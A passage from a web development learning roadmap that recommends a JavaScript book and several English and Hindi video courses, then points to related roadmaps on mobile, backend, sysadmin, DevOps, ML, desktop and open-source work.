* *You Don't Know JS Yet* by Kyle Simpson — the deep mechanics of closures, `this`, and the event loop.

**Video courses** (for orientation and momentum — use official documentation for actual mastery):
* **English — freeCodeCamp**: Full-length HTML/CSS, JavaScript, and React courses on YouTube.
* **English — The Net Ninja**: Short, focused playlist series on nearly every web technology.
* **English — Fireship**: High-level overviews and "100 seconds" intros — great for orientation, not depth.
* **Hindi — Chai aur Code**: JavaScript, backend, and full-stack series with strong fundamentals.
* **Hindi — Sheryians Coding School**: Frontend, animations, and project-based learning.


---

## 21. Where to Next in the CC Ecosystem

Web development is the hub of the CC roadmap ecosystem — nearly every other path connects to it. Where you go next depends on the direction you chose in Stage 1.6:

* **[React Native & Expo Roadmap](@/roadmaps/react-native.md)** — take your React, TypeScript, and TanStack Query skills straight to native mobile apps. The single most natural next step for a React web developer.
* **[Java & Spring Boot Roadmap](@/roadmaps/java-spring-boot.md)** — if enterprise backend engineering is your direction, Spring Boot is the industry's dominant Java stack.
* **[System Administration Roadmap](@/roadmaps/sysadmin.md)** — self-host your web projects: Linux servers, Nginx reverse proxies, TLS automation, and deployment operations.
* **[DevOps Roadmap](@/roadmaps/devops.md)** — automate your build, test, and deployment pipelines with Docker, GitHub Actions, and cloud infrastructure.
* **[Machine Learning Roadmap](@/roadmaps/machine-learning.md)** — ML-backed web services (Python/FastAPI) connect your backend skills to the ML ecosystem.
* **[Desktop Application Development Roadmap](@/roadmaps/desktop-development.md)** — turn your React skills into native desktop apps with Electron or Tauri.
* **[Open Source Contribution Roadmap](@/roadmaps/open-source.md)** — contribute to the frameworks and libraries you just learned — the highest-leverage way to deepen them.
